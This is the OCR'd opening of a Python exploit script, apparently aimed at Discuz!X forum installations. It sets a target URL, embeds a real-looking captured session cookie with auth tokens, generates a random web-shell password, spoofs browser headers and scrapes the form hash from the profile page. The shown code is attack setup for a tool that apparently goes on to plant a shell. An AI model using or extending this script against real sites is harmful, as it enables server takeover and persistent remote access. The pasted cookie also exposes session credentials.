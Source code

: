     import requests

    sess = requests.Session()
    randstr = lambda len=5: ''.join(random.choice(string.ascii_lowercase) for _ in range(len))

    ##################################################
    ########## Customize these parameters ############
    target = 'http://localhost/discuzx'
    # login target site first, and copy the cookie here
    cookie = "UM_distinctid=15bcd2339e93d6-07b5ae8b41447e-8373f6a-13c680-15bcd2339ea636; CNZZDATA1261218610=1456502094-1493792949-%7C1494255360; csrftoken=NotKIwodOQHO0gdMyCAxpMuObjs5RGdeEVxRlaGoRdOEeMSVRL0sfeTBqnlMjtlZ; Zy4Q_2132_saltkey=I9b3k299; Zy4Q_2132_lastvisit=1506763258; Zy4Q_2132_ulastactivity=0adb6Y1baPukQGRVYtBOZB3wmx4nVBRonRprfYWTiUaEbYlKzFWL; Zy4Q_2132_nofavfid=1; Zy4Q_2132_sid=rsQrgQ; Zy4Q_2132_lastact=1506787935%09home.php%09misc; 7Csx_2132_saltkey=U8nrO8Xr; TMT0_2132_saltkey=E3q5BpyX; PXMk_2132_saltkey=rGBnNWu7; b4Gi_2132_saltkey=adC4r05k; b4Gi_2132_lastvisit=1506796139; b4Gi_2132_onlineusernum=2; b4Gi_2132_sendmail=1; b4Gi_2132_seccode=1.8dab0a0c4ebfda651b; b4Gi_2132_sid=BywqMy; b4Gi_2132_ulastactivity=51c0lBFHqkUpD3mClFKDxwP%2BI0JGaY88XWTT1qtFBD6jAJUMphOL; b4Gi_2132_auth=6ebc2wCixg7l%2F6No7r54FCvtNKfp1e5%2FAdz2SlLqJRBimNpgrbxhSEnsH5%2BgP2mAvwVxOdrrpVVX3W5PqDhf; b4Gi_2132_creditnotice=0D0D2D0D0D0D0D0D0D1; b4Gi_2132_creditbase=0D0D0D0D0D0D0D0D0; b4Gi_2132_creditrule=%E6%AF%8F%E5%A4%A9%E7%99%BB%E5%BD%95; b4Gi_2132_lastcheckfeed=1%7C1506800134; b4Gi_2132_checkfollow=1; b4Gi_2132_lastact=1506800134%09misc.php%09seccode"
    shell_password = randstr()
    db_host = ''
    db_user = ''
    db_pw = ''
    db_name = ''
    #################################################

    path = '/home.php?mod=spacecp&ac=profile&op=base'
    url = target + path

    sess.headers.update({
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/61.0.3163.100 Safari/537.36',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8',
        'Referer': url})


    # sess.proxies.update({'http': 'socks5://localhost:1080'})
    # sess.proxies.update({'http': 'http://localhost:8080'})


    def login(username=None, password=None):
        sess.headers.update({'Cookie': cookie})


    def get_form_hash():
        r = sess.get(url)
        match = re.search(r'"member.php\?mod=logging&action=logout&formhash=(.*?)"', r.text, re.I)
        if match:
            return match.group(1)
